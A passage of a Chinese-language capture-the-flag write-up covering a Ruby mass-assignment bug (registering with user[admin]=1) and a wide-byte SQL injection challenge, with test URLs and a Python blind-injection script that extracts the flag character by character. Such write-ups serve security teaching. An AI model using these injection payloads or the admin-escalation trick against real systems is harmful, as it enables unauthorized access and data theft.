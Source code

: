 ```
	print r.content
```

这里坑特别大，服务器经常跑着跑着就被ban了，然后题目又是必须要跑的


## blog ##

ruby web代码审计

从头看一遍基本上能发现这代码基本没什么功能，控制器里基本上就是关于user的东西，基本就是关于用户信息的增删改查。

所以问题其实基本就是出现在在这里。

![image_1bb35c0pc1tnh19vi150lh7ma51u.png-78.7kB][4]

数据库中关于admin字段的定义是默认为false，在注册函数里，admin是有输入的

![image_1bb35dook13ad2va11hr1g1q1kg52b.png-21.4kB][5]

而默认传入的时候是不输入的，那么问题也就在这里了，如果注册的时候传入user[admin]=1

那么账户就会被定义为admin，逛逛就能找到flag了


## come on ##

这题在比赛时间内没能做出来，但实际上是我弱智了，题目不难，只是太久没见了，压根没想到，宽字节注入。

测试payload
```
http://218.2.197.235:23733/index.php?key=1%df%27||1=1%23

http://218.2.197.235:23733/index.php?key=1%df%27||1=2%23
```

但是有一些东西被过滤了，比如union，大于小于号，还有大把多的盲注函数，最后就剩下left，这里有个函数叫做BINARY，用于比较

payload
```
# coding=utf-8

import requests
import random
import hashlib

s = requests.Session()


def get_flag():

	url='http://218.2.197.235:23733/index.php?key=123%df%27||'
	flag = ""

	payload = "if((select(right(left((select(flag)from(flag)),{}),1)))=binary({}),1,0)%23"

	for j in range(1,33):

		for i in range(20,120):

			r = get_data(url + payload.format(str(j), hex(i)))

			if "002265" in r:
				flag +=chr(i)
				print flag
				break


```

  [1]: http://static.zybuluo.com/LoRexxar/g723vz1mg3ggwnzyibo9yf74/image_1bb32tqf61up77bn1mgpre7c4j9.png
  [2]: http://static.zybuluo.com/LoRexxar/eufulrcwusgaimxpspk9ukra/image_1bb32ubhv13cp1s2u1biup751ra9m.png
  [3]: http://static.zybuluo.com/LoRexxar/5jeqqi6bvoku72l77d3c0zsv/image_1bb32up8j1di9h6p1eg97fleh13.png
  [4]: http://static.zybuluo.com/LoRexxar/ex5ltlcnb355v32vrqus56g5/image_1bb35c0pc1tnh19vi150lh7ma51u.png
  [5]: http://static.zybuluo.com/LoRexxar/46ouk2f7idkxudoc57cy3kg5/image_1bb35dook13ad2va11hr1g1q1kg52b.png
  [6]: http://static.zybuluo.com/LoRexxar/njo0c3o4x7ye7zb1r9exlt8n/image_1bb3e0eq5ppbvk13rf1nrqhjn2o.png
  [7]: http://static.zybuluo.com/LoRexxar/btey08y9hxtcmryxt0ojtntl/%7B2C8B3DAC-ABA2-1DE1-B5E4-5084A09E2F83%7D.png